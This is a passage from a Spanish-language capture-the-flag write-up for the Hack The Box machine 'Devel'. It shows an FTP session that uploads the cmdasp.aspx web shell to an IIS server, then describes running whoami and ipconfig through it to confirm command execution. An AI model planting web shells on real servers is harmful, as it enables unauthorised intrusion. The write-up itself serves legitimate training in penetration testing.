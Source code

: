 Para este caso utilizaremos el archivo `cmdasp.aspx`, por lo que lo subimos al servidor:

```bash
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (35.2615 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
08-29-21  12:56AM                 1442 cmdasp.aspx
03-17-17  05:37PM                  689 iisstart.htm
08-29-21  12:32AM                   51 test.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp>
```

Abrimos el recurso desde el navegador y observamos nuestra webshell, para validar introducimos los comandos `whoami` y `ipconfig` para corroborar que nos encontramos en la máquina víctima y tenermos ejecución de comandos a nivel de sistema.  

![""](/assets/images/htb-devel/devel-cmdasp.png)

![""](/assets/images/htb-devel/devel-cmdasp1.png)
